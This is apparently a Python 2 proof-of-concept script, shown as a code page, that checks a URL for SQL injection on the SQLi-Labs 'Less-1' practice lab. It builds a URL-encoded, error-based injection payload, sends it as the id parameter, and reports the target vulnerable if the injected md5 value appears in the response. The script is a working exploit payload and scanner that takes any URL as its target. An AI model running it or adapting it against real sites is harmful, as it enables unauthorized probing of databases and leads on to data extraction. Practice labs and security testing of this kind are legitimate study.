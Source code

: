 ```
# -*- coding:utf-8 -*-
__author__ = 'jerry'


import urllib2
import urllib
import sys
import hashlib


'''
`http://sqli.com:8888/Less-1/?id=1' and (select 1 from (select count(*),concat(floor(rand(0)*2),(select md5(233)))name from information_schema.tables group by name)b) --+`

'''

def verify(url):
    target = "%s/Less-1/?id=" % url
    # 要发送的数据
    #url_data = ' and (select 1 from (select count(*),concat(floor(rand(0)*2),(select md5(233)))name from information_schema.tables group by name)b) --+ '

    url_data = "1%27%20and%20(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),(select%20md5(233)))name%20from%20information_schema.tables%20group%20by%20name)b)%20--+"
    #data = urllib.quote(url_data)
    #print data


    try:
        # 发送 HTTP 请求
        #req = urllib2.Request(target, data=urllib.urlencode())

        full_url = target + url_data
        #print full_url
        req = urllib2.Request(full_url)
        response = urllib2.urlopen(req)
        data = response.read()

        if data:
            # 处理 响应
            verify_data = hashlib.md5('233').hexdigest()
            #print verify_data
            if verify_data in data:

                print "%s is vulnerable" % target
            else:
                print "%s is not vulnerable" % target
    except Exception, e:
        print "Something error happend..."
        print e

def main():
    args = sys.argv
    url = ""

    if len(args) == 2:
        url = args[1]
        verify(url)
    else:
        print "Usage: python %s url" % (args[0])

if __name__ == '__main__':
    main()
```